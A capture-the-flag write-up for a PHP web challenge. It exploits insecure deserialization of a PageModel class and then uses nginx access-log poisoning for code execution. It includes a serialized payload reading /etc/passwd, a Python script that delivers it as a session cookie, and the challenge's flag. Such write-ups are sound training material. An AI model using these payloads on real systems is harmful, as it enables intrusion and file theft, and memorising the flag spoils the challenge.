










------------------------

### Challenge Description

Humanity has exploited our allies, the dart frogs, for far too long, take back the freedom of our lovely poisonous friends. Malicious input is out of the question when dart frogs meet industrialisation. 🐸

### Insecure Deserialization

In the given source code we can spot that it is vulnerable to deserialization.



`PageModel` have magic method `__destruct()` to exploite Deserialization.




payload=
```
O:9:"PageModel":1:{s:4:"file";s:11:"/etc/passwd";}
```

```python
import requests
from itsdangerous import base64_encode

a = "PageModel"
b = "/etc/passwd"
payload = 'O:'+str(len(a))+':"'+a+'":1:{s:4:"file";s:'+str(len(b))+':"'+b+'";}'
payload = base64_encode(payload).decode()
r = requests.get("http://83.136.249.57:52345/",cookies={"PHPSESSID": payload},proxies={"http":"http://127.0.0.1:8080/"})
print(r.text)
```

The flag's name is random, so we need to find an alternative way to read it.



### PHP code Injection in log file

We can find the path of `/etc/nginx/nginx.conf` in Dockerfile.



Reading this file using the deserialization payload it reveals the path to access log `/var/log/nginx/access.log`.



By analyzing the access log, we can see that the User-agent is recorded in the log file.



We can attempt to insert PHP code into this log file and then read the file to determine whether the PHP code is executed.





and this works. Now we can use this PHP code injection to obtain the flag.





Flag: `HTB{P0i5on_1n_Cyb3r_W4rF4R3?!}`


Happy Hacking
